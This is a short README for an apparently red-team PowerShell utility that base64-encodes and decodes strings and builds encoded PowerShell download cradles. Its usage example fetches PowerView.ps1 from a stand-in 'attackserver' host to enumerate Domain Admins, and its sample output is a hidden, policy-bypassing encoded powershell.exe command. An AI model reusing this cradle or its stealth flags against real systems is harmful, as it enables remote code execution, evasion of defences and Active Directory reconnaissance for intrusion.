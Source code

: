 # Coded by Jesse Nebling (@bashexplode)

#### Description:
Quick and dirty base64 encoding and decoding with PowerShell. Also added a -SimpleExec switch to make an easy base64 encoded PowerShell cradle.

#### Usage:
.\Base64.ps1 -Encode <string to encode>


.\Base64.ps1 -Decode <base64 string to decode>


.\Base64.ps1 -SimpleExec -Command "Get-DomainGroupMember 'Domain Admins' -Domain CONTOSO" -URL https://attackserver/PowerView.ps1  
Example Output:  
powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -enc <base64 encoded output>
